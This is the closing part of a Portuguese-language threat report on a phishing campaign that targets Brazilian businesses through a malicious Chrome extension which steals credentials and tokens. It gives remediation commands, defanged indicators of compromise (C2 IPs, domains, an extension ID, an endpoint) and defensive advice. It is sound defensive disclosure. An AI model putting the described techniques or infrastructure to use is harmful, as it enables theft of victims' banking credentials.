Esses são os indicativos que a quadrilha está se aprimorando e usando uma nova tática: o uso de extensões para infectar o navegador da vítima e enviar as credenciais e tokens para o C2. Além disso, essa estrutura abre caminhos para ataques mais simples, como por exemplo, o atacante pode simplesmente realizar engenharia social e pedir para a vítima instalar a extensão direto no navegador.

## **Recomendações de Mitigação**

1. **Remoção Imediata**: Desinstalar a extensão do Chrome (`Diagnostico Segurança PJ` ou `Segurança PJ`).  
2. **Alteração de Senhas**: Priorizar contas bancárias e governamentais (ex.: Receita Federal, bancos).  
3. **Monitoramento de Contas**: Verificar transações não autorizadas e logins suspeitos.  
4. **Bloqueio de Domínio**: Adicionar `ranchocentral[.]com` a firewalls e filtros de DNS.  
5. **Análise Forense**: Investigar histórico de navegação e logs de acesso.  
6. **Isolamento**: Desconectar o sistema comprometido da rede.  
7. **Remoção**:  
   - Excluir as entradas de registro em `HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.  
   - Remover os arquivos `cliente.ps1` e `ProcessoTrabalhista.bat` de `%APPDATA%`.  
8. **Reversão de Alterações**:  
   - Reativar o UAC: `Set-ItemProperty -Path 'HKLM:\...\System' -Name 'EnableLUA' -Value 1`.  
   - Remover a política do Chrome: `reg delete "HKEY_LOCAL_MACHINE\...\ExtensionInstallForcelist" /v 1 /f`.  
9. **Análise Forense**: Investigar logs do Chrome, histórico de conexões TCP e arquivos temporários. 

## **Indicadores de Comprometimento (IOCs)**  

| Tipo         | Valor                                                                 |  
|--------------|-----------------------------------------------------------------------|  
| **IP Malicioso** | `142[.]54[.]185[.]178` (Portas: 5555/TCP, 5556/TCP), `172[.]67[.]213[.]181` e `104[.]21[.]93[.]183   ` |  
| **Domínio**      | `enota[.]clientepj[.]com`, `ranchocentral[.]com` , `clientepj[.]com`|  
| **Extensão**    | Chrome ID: `nplfchpahihleeejpjmodggckakhglee` ou `Diagnostico Segurança PJ` ou `Segurança PJ`  |  
| **Arquivos**     | `cliente.ps1`, `ProcessoTrabalhista[.]bat` |  
| **Registry Key** | `HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\PWSecurity` |  
| **Endpoints**      | `/comando_temporario.php`|  
| **Parâmetros**     | `eindeutigeKennung`, `k`, `senha8`, `codigo` |  

## Conclusão

A campanha de phishing analisada demonstra uma estratégia direcionada a **Pessoas Jurídicas (PJ)** no Brasil, combinando técnicas de engenharia social com mecanismos técnicos simples, porém eficazes. Embora os scripts maliciosos não utilizem ofuscação, a campanha se destaca pela **exploração de extensões maliciosas do Chrome** como vetor principal de ataque, uma abordagem ainda pouco comum em ataques desse tipo no contexto brasileiro. A simplicidade dos scripts revela uma dependência crítica da **falta de conscientização dos usuários** e de medidas básicas de segurança, como a verificação de remetentes e a desconfiança de arquivos executáveis. A ausência de técnicas complexas de evasão sugere que os atacantes priorizam a escala e a velocidade de infecção, aproveitando-se da urgência burocrática associada a processos fiscais.  

A evolução observada na campanha — como a transição de arquivos PE32 para extensões maliciosas e a atualização constante dos servidores — indica que os atacantes estão **adaptando suas táticas** para aumentar a persistência e dificultar a detecção. A capacidade de forçar a instalação de extensões via políticas do Chrome e de coletar credenciais em tempo real amplia significativamente o impacto do ataque, especialmente em organizações com acesso a sistemas bancários e governamentais.  

Para mitigar riscos, é essencial que empresas adotem **medidas proativas**:  

1. **Educação continuada** de colaboradores sobre phishing e verificações básicas (e.g., domínios, anexos suspeitos).  
2. **Restrição de execução de scripts** não autorizados e monitoramento de alterações no registro do Windows.  
3. **Bloqueio de domínios e IPs maliciosos** em firewalls e soluções de segurança.  
4. **Auditoria frequente de extensões** instaladas no Chrome e outros navegadores.  

Embora a campanha ainda esteja em atividade, sua simplicidade técnica a torna passível de contenção mediante ações coordenadas de segurança. No entanto, a **adaptação contínua dos atacantes** reforça a necessidade de vigilância constante e atualização das políticas de defesa, especialmente em um cenário onde a digitalização de processos fiscais e bancários amplia a superfície de ataque. A combinação de conscientização humana e ferramentas técnicas robustas permanece como a melhor defesa contra ameaças cibernéticas cada vez mais direcionadas e oportunistas.

## Agradecimentos

Aos meus amigos que fizeram a revisão desse ensaio.
